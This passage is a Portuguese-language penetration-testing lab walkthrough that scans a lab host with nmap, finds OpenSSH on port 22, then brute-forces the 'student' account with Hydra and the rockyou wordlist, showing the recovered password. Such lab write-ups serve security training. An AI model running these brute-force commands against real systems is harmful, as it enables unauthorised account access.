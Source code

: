 Agora vamos verificar as portas abertas na maquina alvo utilizando o Nmap:

```bash
root@INE:~# nmap -sV -sS demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-03 15:22 IST
Nmap scan report for demo.ine.local (192.34.159.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:22:9F:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

Onde o comando ´-sV´ é para verificar a versão do serviço e o comando ´-sS´ é para realizar um scan TCP SYN.

Atraves do comando acima, conseguimos ver que a porta 22 está aberta e que o serviço que está rodando nessa porta é o OpenSSH 7.2p2 Ubuntu 4ubuntu2.6.

### **• Utilizando o Hydra**:

Vamos utilizar o `Hydra` para fazer um ataque de força bruta em cima do usuário "student" utilizando a wordlist `rockyou.txt`:

primeiramente vamos descompactar o arquivo `rockyou.txt.gz` que está dentro da pasta `/usr/share/wordlists/` utilizando o seguite comando:

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Agora podemos usar o comando abaixo para fazer o ataque de força bruta:

```bash
root@INE:~# hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-03 15:31:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://demo.ine.local:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[22][ssh] host: demo.ine.local   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-03 15:32:38
```
